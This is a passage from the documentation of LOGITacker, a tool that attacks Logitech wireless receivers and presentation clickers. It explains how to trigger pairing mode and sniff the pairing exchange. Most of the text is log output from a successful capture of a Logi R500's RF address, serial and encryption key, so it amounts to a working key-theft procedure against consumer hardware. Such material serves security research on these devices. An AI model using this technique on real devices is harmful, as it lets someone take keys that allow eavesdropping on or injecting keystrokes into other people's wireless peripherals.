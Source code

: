 ```
Enable pairing for 60 seconds
USB Report type: HID++ short message, DeviceID: 0xff, SubID: SET REGISTER SHORT, Params: 0xb2 0x00 0x00 0x00
	Register address: REGISTER PAIRING
	Value: 0x00 0x00 0x00
... Enable pairing response (should be enabled)

Printing follow up reports ...
```

Once the receiver is in pairing mode, the red-flashing LED of LOGITacker should turn to a blue-flashing LED.
For Unifying devices, the device which should be paired has to be turned off and on again. For presentation clickers
R500 / SPOTLIGHT the two buttons used to put the clicker into Bluetooth mode have to pressed and hold.

If nothing has gone wrong, LOGITacker has captured the device address and encryption key. Afterwards, LOGITacker
changes back from "pair sniff" mode to "passive_enum" mode (default behavior). 

Here's some example output of a successful key capture:

```
<info> LOGITACKER_PROCESSOR_PAIR_SNIFF: dongle on channel 44 
<info> LOGITACKER_PROCESSOR_PAIR_SNIFF: dongle on channel 74 
<info> LOGITACKER_PROCESSOR_PAIR_SNIFF: dongle on channel 74 
<info> LOGITACKER_PROCESSOR_PAIR_SNIFF: dongle on channel 74 
<info> LOGITACKER_PROCESSOR_PAIR_SNIFF: dongle on channel 74 
<info> LOGITACKER_PROCESSOR_PAIR_SNIFF: dongle on channel 74 
<info> LOGITACKER_PROCESSOR_PAIR_SNIFF: dongle on channel 74 
<info> LOGITACKER_PROCESSOR_PAIR_SNIFF: dongle on channel 5 
<info> LOGITACKER_PROCESSOR_PAIR_SNIFF: dongle on channel 5 
<info> LOGITACKER_PROCESSOR_PAIR_SNIFF: PAIR SNIFF data received on channel 5
<info> LOGITACKER_PROCESSOR_PAIR_SNIFF:  D6 1F 01 01 89 97 E6 24|.......$
<info> LOGITACKER_PROCESSOR_PAIR_SNIFF:  08 88 08 04 01 04 01 00|........
<info> LOGITACKER_PROCESSOR_PAIR_SNIFF:  00 00 00 00 00 3D      |.....=  
<info> LOGITACKER_PROCESSOR_PAIR_SNIFF: PAIR SNIFF assigned 01:89:97:E6:24 as new sniffing address
...snip...
<info> LOGITACKER_PROCESSOR_PAIR_SNIFF:                         |        
<info> LOGITACKER_PROCESSOR_PAIR_SNIFF: PAIR SNIFF data received on channel 5
<info> LOGITACKER_PROCESSOR_PAIR_SNIFF:  00 40 03 01 BC         |.@...   
<info> LOGITACKER_PROCESSOR_PAIR_SNIFF: PAIR SNIFF data received on channel 5
<info> LOGITACKER_PROCESSOR_PAIR_SNIFF:  00 0F 06 02 03 F8 74 A7|......t.
<info> LOGITACKER_PROCESSOR_PAIR_SNIFF:  A4 2F                  |./      
<info> LOGITACKER_PAIRING_PARSER: Device name: Logi R500
<info> LOGITACKER_PAIRING_PARSER: Device RF address: 01:89:97:E6:25
<info> LOGITACKER_PAIRING_PARSER: Device serial: A7:A4:A0:69
<info> LOGITACKER_PAIRING_PARSER: Device WPID: 0x407A
<info> LOGITACKER_PAIRING_PARSER: Device report types: 0x0000000E
<info> LOGITACKER_PAIRING_PARSER: Device usability info: 0x0F
<info> LOGITACKER_PAIRING_PARSER: Dongle WPID: 0x8808
<info> LOGITACKER_PAIRING_PARSER: Device caps: 0x01
<info> LOGITACKER_PAIRING_PARSER: Device report types: 0x0000000E
<info> LOGITACKER_PAIRING_PARSER: Device raw key material:
<info> LOGITACKER_PAIRING_PARSER:  01 89 97 E6 40 7A 88 08|....@z..
<info> LOGITACKER_PAIRING_PARSER:  52 62 64 53 18 9E F8 74|RbdS...t
<info> LOGITACKER_PAIRING_PARSER: Device key:
<info> LOGITACKER_PAIRING_PARSER:  08 76 01 E6 64 68 37 F8|.v..dh7.
<info> LOGITACKER_PAIRING_PARSER:  52 88 E7 7A 9E 21 40 53|R..z.!@S
<info> LOGITACKER_FLASH: FDS_EVENT_WRITE
<info> LOGITACKER_FLASH: Record ID:     0x00CA
<info> LOGITACKER_FLASH: File ID:       0x1001
<info> LOGITACKER_FLASH: Record key:    0x1001
<info> LOGITACKER_SCRIPT_ENGINE: FDS event handler for scripting: IDLE ... ignoring event
```